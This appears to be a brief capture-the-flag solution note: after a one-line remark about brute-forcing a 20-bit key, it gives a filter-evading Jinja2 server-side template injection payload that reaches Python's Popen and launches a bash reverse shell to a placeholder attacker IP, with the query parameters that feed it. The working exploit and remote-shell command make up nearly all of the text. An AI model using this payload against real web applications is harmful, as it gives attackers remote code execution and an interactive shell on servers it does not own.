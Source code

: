 bruteforce key since it's only 20 bits
ssti payload
{%with a=request|attr("args")|attr("get")%}{%for y in(dict,)|map("attr",a("a"))|map("attr",a("b"))|first()()%}{%if "Pop"in(y,)|map("attr",a("c"))|first%}{%print(y("bash -c 'sh -i>& /dev/tcp/ATTACKR_IP_IN_DECIMAL/80 0>&1'",shell=1))%}{%endif%}{%endfor%}{%endwith%}

?a=__base__&b=__subclasses__&c=__name__
 
